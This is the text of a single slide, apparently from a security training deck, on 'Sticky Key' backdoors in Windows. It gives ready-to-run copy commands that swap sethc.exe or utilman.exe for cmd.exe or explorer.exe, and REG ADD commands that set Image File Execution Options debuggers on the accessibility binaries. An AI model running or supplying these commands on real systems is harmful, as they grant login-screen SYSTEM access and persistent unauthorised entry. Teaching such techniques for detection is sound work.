

# Sticky Key backdoor locations
2. Registry Modification
Make a registry modification to launch a debugger  anytime one of the following $FILES is executed
1. File replacement
File sethc.exe or utilman.exe replaced with  another file, typically cmd.exe or explorer.exe
Copy C:\Windows\system32\cmd.exe  C:\Windows\system32\sethc.exe /y

Copy C:\Windows\system32\cmd.exe  C:\Windows\system32\utilman.exe /y

Copy C:\Windows\explorer.exe  C:\Windows\system32\utilman.exe /y

Copy C:\Windows\explorer.exe  C:\Windows\system32\sethc.exe /y
REG ADD "HKLM\SOFTWARE\Microsoft\Windows  NT\CurrentVersion\Image File Execution  Options\ $FILES " /v Debugger /t REG_SZ /d  "C:\windows\system32\cmd.exe“
REG ADD "HKLM\SOFTWARE\Microsoft\Windows  NT\CurrentVersion\Image File Execution  Options\ $FILES " /v Debugger /t REG_SZ /d  "C:\windows\system32\explorer.exe"

$FILES = (sethc.exe ,utilman.exe, osk.exe,  narrator.exe, magnify.exe,  displayswitch.exe )
18